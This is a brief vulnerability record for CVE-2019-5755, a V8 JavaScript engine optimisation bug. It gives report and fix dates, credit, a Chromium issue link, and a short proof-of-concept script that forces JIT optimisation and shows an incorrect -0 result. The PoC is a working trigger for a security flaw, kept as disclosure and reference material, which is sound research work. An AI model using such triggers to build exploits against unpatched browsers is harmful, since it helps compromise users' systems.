 # CVE-2019-5755

- Report: Dec 2018
- Fix: Jan 2019
- Credit: Jay Bosamiya

## PoC

```javascript
function foo(trigger) {
  return (trigger ? -0 : 0) - 0;
}

assertEquals(0, foo(false));
%OptimizeFunctionOnNextCall(foo);
assertEquals(-0, foo(true)); // Failure: expected <-0> found <0>
```

## Reference

- [Issue](https://crbug.com/913296)
